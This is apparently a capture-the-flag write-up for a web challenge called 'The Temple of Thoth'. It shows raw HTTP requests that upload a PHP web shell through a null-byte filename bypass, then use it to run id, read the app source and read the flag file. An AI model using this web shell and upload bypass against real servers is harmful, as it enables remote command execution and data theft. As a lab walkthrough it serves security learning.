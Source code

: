 Deep within an ancient temple, offerings must be made to gain the gods' favor. The altar accepts only sacred images—or so it seems.

With clever hands and the right format, perhaps you can slip in something more… divine. If your offering is accepted and interpreted correctly, the gods may whisper their secrets.

![](../img/TheTempleOfThoth_Hint.png)

Hint:
The sacred inscriptions are safeguarded by deception, but an addition might deceive the temple's guardians.

Adding Null bytes to be able to upload the file and get a link.
```http
POST / HTTP/1.1
Host: 167.172.174.178:5000
Content-Length: 236
Cache-Control: max-age=0
Accept-Language: en-GB,en;q=0.9
Origin: http://167.172.174.178:5000
Content-Type: multipart/form-data; boundary=----WebKitFormBoundarygyGljJRYdT8AqdXS
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Referer: http://167.172.174.178:5000/
Accept-Encoding: gzip, deflate, br
Connection: keep-alive

------WebKitFormBoundarygyGljJRYdT8AqdXS
Content-Disposition: form-data; name="file"; filename="test.php%00.jpg"
Content-Type: application/x-php

<?php echo system($_GET['command']); ?>

------WebKitFormBoundarygyGljJRYdT8AqdXS--
```

```html
       <p><strong>Offering received: 200_test.php. Available at: <a href='http://167.172.174.178:8000/200_test.php' target='_blank'>http://167.172.174.178:8000/200_test.php</a></strong></p>
```

```http
GET /200_test.php?command=id HTTP/1.1
Host: 167.172.174.178:8000
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

```http
HTTP/1.1 200 OK
Host: 167.172.174.178:8000
Date: Fri, 02 May 2025 11:33:54 GMT
Connection: close
X-Powered-By: PHP/8.0.30
Content-type: text/html; charset=UTF-8

uid=1000(ctfuser) gid=1000(ctfuser) groups=1000(ctfuser)
uid=1000(ctfuser) gid=1000(ctfuser) groups=1000(ctfuser)
```


```http
GET /200_test.php?command=cat+../app.py HTTP/1.1
Host: 167.172.174.178:8000
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

The path to the flag file is found here:  
```http
HTTP/1.1 200 OK
Host: 167.172.174.178:8000
Date: Fri, 02 May 2025 11:35:04 GMT
Connection: close
X-Powered-By: PHP/8.0.30
Content-type: text/html; charset=UTF-8

from flask import Flask, request, render_template, send_from_directory, jsonify
import os
import urllib.parse
import re
import subprocess
from translator import text_to_hieroglyphs, hieroglyphs_to_text  # Import translation functions

app = Flask(__name__)
UPLOAD_FOLDER = "/app/uploads/"
FLAG_FILE = "/home/ctfuser/flag.txt"
PHP_EXECUTABLE = "/usr/local/bin/php"

ALLOWED_EXTENSIONS = {"png", "jpg", "jpeg"}
[...]
```


```http
GET /200_test.php?command=cat+/home/ctfuser/flag.txt HTTP/1.1
Host: 167.172.174.178:8000
Accept-Language: en-GB,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/135.0.0.0 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Accept-Encoding: gzip, deflate, br
Connection: keep-alive
```

```
HTTP/1.1 200 OK
Host: 167.172.174.178:8000
Date: Fri, 02 May 2025 11:36:39 GMT
Connection: close
X-Powered-By: PHP/8.0.30
Content-type: text/html; charset=UTF-8

O24{54cr3d_up104d_3xp10i7}
O24{54cr3d_up104d_3xp10i7}
```